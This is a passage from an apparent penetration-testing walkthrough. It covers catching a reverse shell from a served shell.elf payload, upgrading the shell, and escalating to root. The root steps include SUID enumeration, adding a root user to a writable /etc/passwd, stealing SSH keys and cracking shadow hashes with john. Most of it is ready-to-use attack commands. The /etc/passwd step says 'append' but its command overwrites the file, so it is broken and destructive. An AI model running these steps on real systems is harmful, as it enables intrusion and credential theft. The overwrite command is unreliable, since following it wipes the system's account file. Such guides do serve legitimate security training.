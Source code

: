 
Trigger by accessing the modified page.
5.  **Check Connection:**
*   Your Python web server (Terminal 2) should log a request for `shell.elf` (HTTP 200).
*   Your `nc` listener (Terminal 1) should show a "connect to [...] from [...]" message and provide a command prompt (`$` or `#`). You now have a shell.

### Phase 5: Shell Interaction \& Upgrade

1. **Initial Shell:** You likely have a basic, non-interactive shell (e.g., `/bin/sh`). Test with `id`, `whoami`.
2. **Upgrade to Interactive Shell:** Use Python (if available on target) for a better experience (tab completion, history, interactive commands like `sudo`).
`python3 -c 'import pty; pty.spawn("/bin/bash")'`.
    * If `python3` fails, try `python`. If `/bin/bash` fails, try `/bin/sh`.

### Phase 6: Privilege Escalation (Quick Reference)

Once initial access is gained, the next step is often to escalate privileges to root.

* **Check `sudo` permissions:** `sudo -l` (See if your user can run commands as root, possibly without a password).
* **Find SUID/SGID binaries:** `find / -perm -u=s -type f 2>/dev/null` (Look for binaries owned by root that execute with root privileges). Check GTFOBins website for exploitation methods.
* **Check File Permissions:**
    * Examine sensitive files: `ls -l /etc/passwd /etc/shadow`.
    * Check Access Control Lists: `getfacl /etc/passwd /etc/shadow`.
    * **If `/etc/passwd` is world-writable:**

1. Generate a password hash *on your attacker machine*: `openssl passwd -1 -salt xyz mynewpassword`.
2. Append a new root user entry to the target's `/etc/passwd`: `echo 'newroot:<GENERATED_HASH>:0:0:root:/root:/bin/bash' > /etc/passwd`.
3. Switch user: `su newroot` (enter `mynewpassword`).
* **Look for Credentials:**
    * Check SSH keys: `ls -la /home/*/.ssh/` (Look for private keys like `id_rsa`).
    * Search config files, scripts, history files.
* **Crack Found Hashes:**
    * If you find password hashes (e.g., in `/etc/shadow`, database dumps).
    * Save them to a file (e.g., `hashes.txt`) in the correct format (e.g., `username:<hash_string>:$id$salt...`).
    * Use `john` (John the Ripper) with a wordlist: `sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hashes.txt` (Adjust `--format` based on hash type, e.g., `md5`, `sha512crypt`).
    * If cracked, use `su <username>`.
* **Check Processes/Cron Jobs:** Look for processes running as root or scheduled tasks (`cron`) that might use insecure scripts or configurations you can modify.
* **Use Enumeration Scripts:** Tools like LinPEAS (`linpeas.sh`) or WinPEAS automate many privilege escalation checks.


### Important Considerations \& Cheatsheet

* **IP Addresses:** Always confirm your `<ATTACKER_IP>` and the `<TARGET_IP>`.
* **Wordlists:** Have necessary wordlists available, such as `/usr/share/wordlists/dirb/common.txt` and `/usr/share/wordlists/rockyou.txt`.
* **File Naming:** When re-uploading modified files (like shells), use a new filename (e.g., `shell_v2.php`) to avoid browser or server caching issues.
* **Target Directory:** Use writable directories like `/tmp` on the target for downloaded payloads.
* **Exploit Reliability:** Prioritize "verified" exploits from trusted sources like Exploit-DB for better success rates.
